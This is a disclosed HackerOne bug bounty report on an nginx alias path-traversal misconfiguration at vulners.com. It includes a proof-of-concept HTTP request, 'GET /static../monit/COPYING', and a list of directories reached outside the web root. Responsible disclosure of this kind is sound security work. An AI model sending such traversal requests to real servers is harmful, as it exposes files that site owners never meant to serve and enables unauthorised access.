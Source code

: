 # [vulners.com] nginx alias_traversal

## Report Details
- **Report ID**: 317201
- **URL**: https://hackerone.com/reports/317201
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-17T19:34:56.469Z
- **Disclosed**: 2018-05-03T12:08:29.209Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vulnerscom

## Vulnerability Information
Incorrect configuration of alias could allow an attacker to read file stored outside the target folder.
https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md

Уязвимость только в конфигурации http, на https такого нет.

Пример:
```http
GET /static../monit/COPYING HTTP/1.1
Host: vulners.com
```

{F264475}

Примеры директорий, которые я обнаружил
```
rh/
nginx/cache/
monit/bin/monit
monit/conf/
monit/man/
monit/COPYING
monit/CHANGES
```

## Impact

Incorrect configuration of alias could allow an attacker to read file stored outside the target folder.

## Attachments
- Screenshot_at_23-32-25.png
